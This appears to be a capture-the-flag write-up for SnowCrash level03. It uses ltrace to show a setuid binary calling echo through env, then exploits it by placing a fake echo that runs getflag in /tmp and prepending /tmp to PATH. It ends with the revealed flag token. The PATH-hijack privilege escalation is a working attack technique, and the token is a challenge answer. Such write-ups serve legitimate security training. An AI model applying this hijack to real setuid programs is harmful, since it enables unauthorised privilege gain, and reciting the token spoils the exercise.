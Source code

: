 There's a suid binary (level03) in the home folder
Running file Command on level03 file gives "setuid setgid ELF 32-bit LSB executable"

after executing ltrace to the binary
``level03@SnowCrash:~$ ltrace ./level03``

__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
# system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++

`level03@SnowCrash:~$`

It shows that the binary execute the command /usr/bin/env echo Exploit me

The echo call is done with relative path this means we can create our echo
and inject it's path into PATH enviroment variable

`level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo`
`level03@SnowCrash:~$ PATH=/tmp:$PATH`

`level03@SnowCrash:~$ ./level03`

# Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

`level03@SnowCrash:~$`